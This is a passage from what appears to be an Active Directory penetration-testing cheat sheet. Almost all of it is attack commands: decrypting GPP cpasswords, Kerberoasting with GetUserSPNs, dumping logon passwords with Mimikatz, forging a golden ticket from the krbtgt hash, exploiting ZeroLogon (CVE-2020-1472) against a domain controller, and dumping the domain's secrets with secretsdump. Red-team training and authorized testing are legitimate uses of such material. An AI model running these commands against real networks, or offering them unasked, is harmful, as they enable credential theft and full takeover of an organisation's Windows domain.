 - Copy the cpassword and run cmd to decrypt it.
```bash
 gpp-decrypt <cPassword>
```
- Using GetUserSPNs we can dump credentials.
```bash
 GetUserSPNs.py <Domain/username:password> -dc-ip <DC IP> -request
```
# Mimikatz Credentials Dumping
```bash
privilege::debug
sekurlsa:logonpasswords
```
# Golden Ticket Attacks
- Using **Mimikatz**
```bash
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
- Copy the SID of the domain and paste it into a safe place
- Copy the NTLM hash for the **krbtgt** account and paste it into a safe place
- Now, generate a golden ticket
```powershell
kerberos::golden /User:Fakeuser /domain:<domain name> /sid:<SID> /krbtgt:<NTLM hash> /id:500 /ptt

# Interact with the session using PTT, use cmd:
misc::cmd
```
# Abusing [ZeroLogon](https://github.com/dirkjanm/CVE-2020-1472)
- Check if the target is vulnerable to [Zerologon](https://github.com/SecuraBV/CVE-2020-1472) exploit.
```bash
python3 zerologon_check.py <DOMAIN CONTROLLER> <IP>
```
- Exploiting the target domain.
 ```bash
python3 cve-2020-1472-exploit.py <DOMAIN CONTROLLER> <IP>
```
- Using **secretsdump** we can dump credentials.
```bash
secretsdump.py -just-dc <DOMAIN>/<DOMAIN CONTROLLER>\$@<IP>
```
- To restore the password over the domain controller. Run secretsdump using the dumped administrator and hash
```bash
secretsdump.py administrator@<IP> -hashes <hash>
```
- Copy the Domain Controller's Plain Text Hex from the results above.
```bash
python3 restorepassword.py <Domain>/DOMAIN CONTROLLER>@<DOMAIN CONTROLLER> -target-ip <IP> -hexpass <Plain Text Hex>  
```
